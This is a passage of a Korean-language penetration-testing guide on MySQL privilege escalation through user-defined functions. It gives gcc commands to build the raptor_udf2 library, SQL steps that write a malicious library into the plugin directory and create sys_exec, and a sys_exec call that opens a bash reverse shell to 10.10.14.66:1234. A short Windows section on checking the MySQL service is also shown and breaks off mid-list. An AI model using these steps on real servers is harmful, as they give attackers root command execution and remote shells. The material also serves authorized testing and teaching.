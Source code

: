 만약 **mysql 서버가 root로 실행 중**이거나 다른 더 권한이 있는 사용자로 실행 중이라면, 명령을 실행할 수 있습니다. 이를 위해서는 **사용자 정의 함수**를 사용해야 합니다. 그리고 mysql을 실행 중인 운영 체제에 필요한 **라이브러리**를 생성해야 합니다.

악성 라이브러리는 sqlmap과 metasploit 내에서 **`locate "*lib_mysqludf_sys*"`** 명령을 실행하여 찾을 수 있습니다. **`.so`** 파일은 **리눅스** 라이브러리이고 **`.dll`** 파일은 **Windows**용입니다. 필요한 파일을 선택하세요.

만약 해당 라이브러리를 **가지고 있지 않다면**, 라이브러리를 **찾아보거나**, 이 [**리눅스 C 코드**](https://www.exploit-db.com/exploits/1518)를 다운로드하여 **취약한 리눅스 머신 내에서 컴파일**할 수 있습니다.
```bash
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
이제 라이브러리를 가지고 있으므로, 특권 사용자(root?)로 Mysql에 로그인하고 다음 단계를 따르십시오:

#### Linux
```sql
# Use a database
use mysql;
# Create a table to load the library and move it to the plugins dir
create table npn(line blob);
# Load the binary library inside the table
## You might need to change the path and file name
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
# Get the plugin_dir path
show variables like '%plugin%';
# Supposing the plugin dir was /usr/lib/x86_64-linux-gnu/mariadb19/plugin/
# dump in there the library
select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys.so';
# Create a function to execute commands
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
# Execute commands
select sys_exec('id > /tmp/out.txt; chmod 777 /tmp/out.txt');
select sys_exec('bash -c "bash -i >& /dev/tcp/10.10.14.66/1234 0>&1"');
```
#### 윈도우

##### MySQL 서비스 검사

MySQL 서비스는 일반적으로 3306 포트에서 실행됩니다. 다음 명령을 사용하여 MySQL 서비스가 실행 중인지 확인할 수 있습니다.

```bash
netstat -ano | findstr :3306
```

만약 MySQL 서비스가 실행 중이라면, 다음 단계를 따라 MySQL 서비스에 대한 펜테스트를 수행할 수 있습니다.

##### MySQL 서비스 펜테스트

1. **MySQL 서비스 버전 확인**

   MySQL 서비스의 버전을 확인하기 위해 다음 명령을 사용할 수 있습니다.

   ```bash
   mysql -V
   ```

2. **MySQL 서비스에 대한 기본 연결**
